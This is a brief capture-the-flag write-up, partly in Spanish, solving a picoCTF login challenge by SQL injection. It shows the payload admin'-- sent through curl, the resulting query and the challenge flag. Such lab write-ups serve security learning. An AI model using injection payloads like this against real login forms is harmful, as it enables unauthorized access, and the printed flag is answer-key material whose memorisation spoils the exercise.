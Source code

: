 ## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución

Para este desafío inyectamos un comando de SQL en el nombre de usuario y contraseña
admin'--

```
czarragar-picoctf@webshell:~$ curl http://jupiter.challenges.picoctf.org:33850/login.php -d "username=admin'--&password=admin&debug=1"
<pre>username: admin'--
password: admin
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'
</pre>

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>czarragar-picoctf@webshell:~$ 
```

```
username: admin' --
password: admin' --
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='admin' --'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

## Notas adicionales

## Referencias


